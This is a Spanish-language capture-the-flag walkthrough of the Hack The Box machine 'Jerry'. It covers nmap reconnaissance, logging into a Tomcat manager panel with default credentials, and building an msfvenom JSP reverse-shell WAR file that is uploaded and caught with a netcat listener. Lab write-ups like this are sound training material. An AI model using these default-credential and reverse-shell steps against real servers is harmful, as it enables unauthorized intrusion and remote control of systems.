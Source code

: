 ![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167362483-2fb9697d-8b28-490a-8f61-2a60dcf94c31.png)

# HTB-Jerry

En primer lugar, nos creamos un directorio con el nombre de la máquina desde el que trabajaremos:

    sudo mkdir Jerry
    
Ahora, mediante la función <a href="../Web/Herramientas_y_Scripts/mkt.html" style="text-decoration:none">`mkt`</a> que tengo previamente definida en la `.zhshrc` crearemos nuestros directorios de trabajo:

    sudo mkt

Esta función está definida para crearnos cuatro directorios (`nmap`, `content`, `exploits` y `scripts`) desde los cuales poder trabajar a la hora de
realizar las máquinas de HTB.

## Fase de Reconocimiento:

Ejecutamos un `ping` y vemos como nos reporta un ttl=127, por tanto, ya sabemos que estamos frente una máquina Windows.

    ping -c 1 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-41-43](https://user-images.githubusercontent.com/103068924/167363813-7dab983b-d779-40bb-9ee9-fa2098fad932.png)

Ahora vamos a ver mediante `whatweb` que más podemos ver:

    whatweb 10.10.10.95
    
![Captura de pantalla -2022-05-09 09-48-48](https://user-images.githubusercontent.com/103068924/167364415-8e3dae47-0de7-4b61-b469-d7f0dbff2539.png)

Nos reporta un erro al tratar de acceder. Por tanto, vamos a realizar mediante [`nmap`](../Herramientas_y_Scripts/Nmap.html)
una serie de escaneos para ver que puertos se encuentran abiertos, primero realizaré un escaneo básico:

    nmap -p- --open -T5 -v -n 10.10.10.95 -oG allPorts
  
`-oG` : Exportar los resultados en formato grepeable.
  
`allPorts` : Nombre del archivo. Si no existe lo creará.
  
De esta manera podremos revisar los puertos que estaban abiertos en cualquier momento.

![Captura de pantalla -2022-05-09 10-02-16](https://user-images.githubusercontent.com/103068924/167366619-2fea1b36-9776-47cd-8c0d-a516313f4c11.png)

![Captura de pantalla -2022-05-09 10-02-34](https://user-images.githubusercontent.com/103068924/167366626-008b8f13-f83a-4e1d-a74c-9e3844c33f17.png)

Como podemos ver, nos reporta que el puerto 8080 está abierto, vamos a proceder a un segundo escaneo especificando
que quereros utilizar la variable `--script http-enum` en el puerto 8080 y guardaremos los resultados en el archivo 
`targetenum`.

    sudo nmap --script http-enum -p8080 10.10.10.95 -oN targetenum 
    
![Captura de pantalla -2022-05-07 15-15-30](https://user-images.githubusercontent.com/103068924/167366694-67b211b3-0e2c-45d5-9d33-217119e4df2b.png)

![Captura de pantalla -2022-05-07 15-24-03](https://user-images.githubusercontent.com/103068924/167366815-7cda1186-3b70-4313-b7bd-cbc85727409c.png)

Vemos que en el puerto `8080` corre un servicio `http`, por tanto, vamos a intentar acceder mediante el navegador de Firefox.

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167367405-e0c39dde-b045-4a47-996c-8585896b46e5.png)

Vemos que al intentar acceder al dominio `http://10.10.10.95` la página no termina de cargar, pero tampoco reporta ningún error. Por tanto, lo siguiente que
probaremos será especificar el puerto en el que corre el servicio, por tanto, intentamos acceder al dominio `http://10.10.10.95:8080`.

![Captura de pantalla -2022-05-07 15-11-45](https://user-images.githubusercontent.com/103068924/167368005-2fbf0775-5bb5-4ee6-ba8d-386529a1706c.png)

![Captura de pantalla -2022-05-07 15-09-34](https://user-images.githubusercontent.com/103068924/167368016-77a414e6-3ce0-4ee2-ae34-d79d955ca882.png)

## Fase de Inrusión:

Genial ya nos carga la página, vemos que se trata de la página oficial de un programa llamado `Tomcat`. Lo siguiente que vamos a probar, es tratar de
acceder al directorio `./manager/html`.

![Captura de pantalla -2022-05-07 15-17-15](https://user-images.githubusercontent.com/103068924/167369103-a8c49c92-7566-4e5a-8cc2-0077f62154ad.png)

![Captura de pantalla -2022-05-07 15-17-33](https://user-images.githubusercontent.com/103068924/167369119-303c65f3-30f4-4435-a170-a8d7ca3a8cd3.png)

Nos muestra una ventana de registro, como se trata de una máquina fácil, podemos probar con combinaciones básicas para ver si conseguimos ingresar
de manera sencilla.

![Captura de pantalla -2022-05-07 15-17-43](https://user-images.githubusercontent.com/103068924/167369536-153cffa5-e7a3-48ba-a9a7-5a6b6a9d761e.png)

Tras probar algunas combinaciones vemos que utilizando el usuario `admin` y la contraseña `admin` nos reporta este mensaje con un error de servicio 403.

![Captura de pantalla -2022-05-07 15-18-05](https://user-images.githubusercontent.com/103068924/167369705-e43f467d-4aea-4226-b0d3-2a8c5c3690b2.png)

Vemos como nos indica un ejemplo, donde nos muestra unas credenciales que se han usado para mostrar el ejemplo.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167369862-6c157b14-f241-4432-8fe9-d5e4707857a1.png)

Tratamos de acceder al panel anterior mediante estas credenciales a ver si nos permite registrarnos como el usuario `tomcat` y empleando la contraseña
`s3cret`.

![Captura de pantalla -2022-05-07 15-20-56](https://user-images.githubusercontent.com/103068924/167370646-06f8b867-1bbc-4920-848a-fd7e651d0a3c.png)

![Captura de pantalla -2022-05-09 10-23-23](https://user-images.githubusercontent.com/103068924/167370670-7fe63026-5173-4dce-bff7-7baeb579db9d.png)

![Captura de pantalla -2022-05-07 15-22-16](https://user-images.githubusercontent.com/103068924/167370734-2bb21a68-2dcd-4897-9047-fde8b66decbe.png)

Las credenciales funcionan y nos lleva hasta una página que parece gestionar aplicaciones. 

Tras revisar la página vemos que nos permite subir archivos, así que vamos a tratar de buscar alguna herramienta que nos permita crear una
shell inversa desde la cual poder interactuar con la máquina.

## Creación de una Reverse Shell mediante MsfVenom:

Mediante `msfvenom` podemos tratar de comprobar una gran cantidad de herramientas:

    msfvenom -l payloads

![Captura de pantalla -2022-05-07 15-25-25](https://user-images.githubusercontent.com/103068924/167371974-d9b41da2-3d47-40a1-8498-6d2f25678fc3.png)

![Captura de pantalla -2022-05-07 15-27-24](https://user-images.githubusercontent.com/103068924/167372055-941c21d6-2d55-4808-9994-391d329511a5.png)

Vamos a emplear la herramienta `jsp_shell_reverse_tcp`. Esta herramienta, especificándole nuestro host de escucha y el puerto mediante el siguiente
comando, nos creará un archivo en formato `.war` capaz de crear una shell inversa desde la máquina víctima.

![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167385544-1f78a708-b08c-4c23-b6b3-8787c0f05fd4.png)

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.14.29 LPORT=8080 -f war -o shell.war
    
![Captura de pantalla -2022-05-09 11-02-02](https://user-images.githubusercontent.com/103068924/167376951-11f44b27-79b4-4988-b325-4f8e8423ccb7.png)
    
Una vez creado nuestro archivo `shell.war` vamos a subirlo a la máquina víctima, pero antes, debemos mover nuestro archivo
al directorio `Descargas/Downloads`:

![Captura de pantalla -2022-05-07 15-32-25](https://user-images.githubusercontent.com/103068924/167373933-05569db6-7535-4e68-b2a3-ae5c0e72fb63.png)

Ahora, mediante el apartado de la página llamado `Archivo WAR a desplegar` subimos nuestro archivo `shell.war`.

![Captura de pantalla -2022-05-07 15-32-55](https://user-images.githubusercontent.com/103068924/167374610-e9b1e566-2a29-4116-bfec-33a11ae25fc6.png)

![Captura de pantalla -2022-05-07 15-33-38](https://user-images.githubusercontent.com/103068924/167374653-431287e4-5091-47b0-968a-85ec85904e40.png)

![Captura de pantalla -2022-05-07 15-34-28](https://user-images.githubusercontent.com/103068924/167374662-ab39d3f4-9253-43a4-9079-91b7a7caf281.png)

![Captura de pantalla -2022-05-07 15-34-42](https://user-images.githubusercontent.com/103068924/167374683-17d0860c-4808-40af-9788-25955448d081.png)

Recargamos la página y vemos como aparece nuestro archivo. El siguiente paso será ponerlo en escucha por el puerto `8080` mediante `nc` como se 
trata de un sistema Windows utilizaremos `rlwarp`:

    rlwrap nc -lvnp 8080

![Captura de pantalla -2022-05-09 11-07-21](https://user-images.githubusercontent.com/103068924/167385711-908c4b6b-e40d-48c2-8978-5536a0850301.png)


![Captura de pantalla -2022-05-09 11-07-30](https://user-images.githubusercontent.com/103068924/167386060-d0be171e-6afb-468c-a5c4-8699f4ffc08a.png)


Ahora, para ejecutar el archivo, simplemente nos vamos a la página y lo pulsamos.


![Captura de pantalla -2022-05-09 11-49-32](https://user-images.githubusercontent.com/103068924/167386089-4cd94622-03f5-45df-83d6-da925a2ea417.png)

Vemos como la shell se nos despliega en la terminal que tenemos en escucha con Netcat.

![Captura de pantalla -2022-05-09 11-55-16](https://user-images.githubusercontent.com/103068924/167386486-2bea3986-982e-4163-8293-4cf58fccc4f4.png)

Está máquina ya está básicamente terminada, ya que las dos flags se encuentran en el mismo archivo, el cual se encuentra en el directorio 
`C:\Users\Administrator\Desktop\flags`:

    cd /Users/Administrator/Desktop/flags
    
Vemos como dentro del directorio `flags` se encuentra el archivo `2 for the price at 1.txt`

![Captura de pantalla -2022-05-09 12-01-47](https://user-images.githubusercontent.com/103068924/167387535-4165e282-73a2-4d0a-a41a-4893cd492ef6.png)

Y finalmente, mediante `type` podemos visualizar el contenido:

![Captura de pantalla -2022-05-07 15-59-28](https://user-images.githubusercontent.com/103068924/167387517-8daf25ec-3c37-486f-8695-2894ca5daabe.png)


![Captura de pantalla -2022-05-09 09-36-58](https://user-images.githubusercontent.com/103068924/167387740-ca9ebbf6-6e75-47f5-b8e5-076a6e0eee27.png)

---
---
  
    
<html lang="en">
<head>
  
</head>
<body>

<script src="https://utteranc.es/client.js"
    repo="F1r0x/gestion-comentarios"
    issue-term="pathname"
    theme="github-light"
    crossorigin="anonymous"
    async>
</script>
          
    
  </body>
</html>
  
  
---
---



